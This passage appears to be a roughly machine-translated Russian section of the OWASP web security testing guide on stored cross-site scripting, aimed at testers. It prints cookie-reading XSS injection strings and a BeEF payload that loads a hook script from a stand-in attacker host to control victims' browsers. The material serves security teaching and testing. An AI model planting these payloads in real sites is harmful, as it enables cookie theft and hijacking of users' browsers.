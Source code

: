Это включает в себя тестирование входных проверок и фильтрацию элементов управления приложения. Основные примеры инъекций в этом случае:

- `aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;`
- `aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E`

Убедитесь, что вход представлен через приложение. Обычно это включает в себя отключение JavaScript, если реализованы элементы управления безопасностью на стороне клиента, или изменение HTTP-запроса с помощью веб-прокси. Также важно проверить одну и ту же инъекцию с HTTP GET и POST запросами. Вышеуказанная инъекция приводит к всплывающему окну, содержащему значения cookie.

> ![Stored XSS Exxample](images/Stored_xss_example.jpg)\
> *Figure 4.7.2-2: Stored Input Example*
>
> Код HTML после инъекции:
>
> ```html
> <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
> ```
>
> Входные данные сохраняются, и полезная нагрузка XSS выполняется браузером при перезагрузке страницы. Если приложение экранирует вход, тестировщики должны протестировать приложение на фильтрах XSS. Например, если строка «SCRIPT» заменяется пробелом или символом NULL, это может быть потенциальным признаком фильтрации XSS в действии. Существует много методов, чтобы избежать входных фильтров (см [testing for reflected XSS](01-Testing_for_Reflected_Cross_Site_Scripting.md)) chapter). Настоятельно рекомендуется, чтобы тестеры ссылались [XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) а также [Mario](https://cybersecurity.wtf/encoder/) Читовые страницы XSS, которые предоставляют обширный список атак XSS и обходов фильтрации. Обратитесь к разделу «Бекросы и инструменты» для получения более подробной информации.

#### Кредитное плечо Хранится XSS с BeEF

Хранимый XSS может использоваться с помощью современных сред эксплуатации JavaScript, таких как [BeEF](https://www.beefproject.com) а также [XSS Proxy](http://xss-proxy.sourceforge.net/).

Типичный сценарий эксплуатации BeEF включает в себя:

- Ввод хука JavaScript, который связывается с платформой эксплуатации браузера злоумышленника (BeEF)
- Ожидание, когда пользователь приложения увидит уязвимую страницу, на которой отображается сохраненный вход
- Управление браузером пользователя приложения через консоль BeEF

Крюк JavaScript можно ввести, используя уязвимость XSS в веб-приложении.

**Example**: BeEF Инъекция в `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

Когда пользователь загружает страницу `index2.php`, браузер выполняет скрипт `hook.js`. Затем можно получить доступ к файлам cookie, скриншоту пользователя, буферу обмена пользователя и запустить сложные атаки XSS.
